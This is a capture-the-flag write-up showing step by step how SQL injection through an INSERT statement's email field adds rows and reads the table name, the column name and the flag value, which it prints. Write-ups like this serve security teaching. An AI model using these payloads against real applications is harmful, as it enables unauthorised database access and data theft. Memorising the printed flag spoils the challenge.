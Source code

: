 ```yaml
---
layout: default
title: SQL-injection-Insert
---
```


Here we know that the query looks like:
```sql
Insert into 'table-name' (username, password, email) values ({input},{input},{input})
```

When trying giving `'` in `username` or `password` we get `char not authorised`, however, in `email` we can do that.

Let's try this:
```
username=simpleUser&password=a&email=blabla') -- 
```
When login, we can see this:
```
Username : simpleUser
Email : blabla
```

Now, let's try some advanced techinuqe. We can insert another row of data, like this:
```
blabla'),('ourUser','a','mail') -- 
```
And then we can login with `ourUser:a`
```
Username : ourUser
Email : mail
```

The query will look like
```sql
Insert into 'table-name' (username, password, email) values ('someusername','pass','blabla'),('ourUser','a','mail') -- 
```

By this way, we can inject our queries, for example:
```sql
(select table_name FROM information_schema.tables where table_schema=DATABASE() limit 1 )
```

Notice every time we need to create new user in the original user, and also in the malicious user we injected.
So, first payload will be:
```
blabla'),('random','a',(select table_name FROM information_schema.tables where table_schema=DATABASE() limit 1 )) -- 
```
And we get this:
```
Username : random
Email : flag
```
So, the table name is `flag`.
![table_name](./images/SQL-injection-Insert_table_name.png)

Then, we'll extract the column name
```
blabla'),('random2','a',(select column_name FROM information_schema.columns where table_name='flag' limit 1 )) -- 
```
And we get this:
```
Username : random2
Email : flag
```
So, the column name is `flag`.

Now, we only need to extract the flag:
```
blabla'),('random3','a',(select flag FROM flag limit 1 )) -- 
```
And we get this:
```
Username : random3
Email : moaZ63rVXUhlQ8tVS7Hw
```

![FINAL](./images/SQL-injection-Insert_FINAL.png)

**Flag:** **_`moaZ63rVXUhlQ8tVS7Hw`_**